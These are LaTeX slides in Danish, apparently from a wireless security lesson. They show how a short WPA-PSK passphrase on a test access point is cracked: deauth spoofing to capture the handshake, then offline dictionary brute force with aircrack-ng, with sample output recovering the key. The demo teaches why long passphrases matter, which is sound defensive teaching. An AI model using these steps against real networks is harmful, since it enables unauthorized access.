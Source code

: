\documentclass[20pt,landscape,a4paper,footrule]{foils}
\begin{document}

\begin{list1}
\item Nu skifter vi så til WPA og alt er vel så godt?
\pause
\item Desværre ikke!
\item Du skal vælge en laaaaang passphrase, ellers kan man sniffe WPA
  handshake når en computer går ind på netværket!
\item Med et handshake kan man med aircrack igen lave off-line
  bruteforce angreb!
\end{list1}


\begin{list1}
\item Vi konfigurerer AP med Henrik42 som WPA-PSK/passhrase
\item Vi finder netværk kismet eller airodump
\item Vi starter airodump mod specifik kanal
\item Vi spoofer deauth og opsamler WPA handshake
\item Vi knækker WPA :-)
\end{list1}

\centerline{Brug manualsiderne for programmerne i aircrack-ng pakken!}


\begin{alltt}
\small
slax ~ # aircrack-ng -w dict wlan-test.cap
Opening wlan-test.cap
Read 1082 packets.

#  BSSID              ESSID           Encryption

1  00:11:24:0C:DF:97  wlan            WPA (1 handshake)
2  00:13:5F:26:68:D0  Noea            No data - WEP or WPA
3  00:13:5F:26:64:80  Noea            No data - WEP or WPA
4  00:00:00:00:00:00                  Unknown

Index number of target network ? {\bf 1}
\end{alltt}


\begin{alltt}
\small
          [00:00:00] 0 keys tested (0.00 k/s)

                    KEY FOUND! [ Henrik42 ]

Master Key     : 8E 61 AB A2 C5 25 4D 3F 4B 33 E6 AD 2D 55 6F 76
                 6E 88 AC DA EF A3 DE 30 AF D8 99 DB F5 8F 4D BD
Transcient Key : C5 BB 27 DE EA 34 8F E4 81 E7 AA 52 C7 B4 F4 56
                 F2 FC 30 B4 66 99 26 35 08 52 98 26 AE 49 5E D7
                 9F 28 98 AF 02 CA 29 8A 53 11 EB 24 0C B0 1A 0D
                 64 75 72 BF 8D AA 17 8B 9D 94 A9 31 DC FB 0C ED

EAPOL HMAC     : 27 4E 6D 90 55 8F 0C EB E1 AE C8 93 E6 AC A5 1F

\end{alltt}
\end{document}
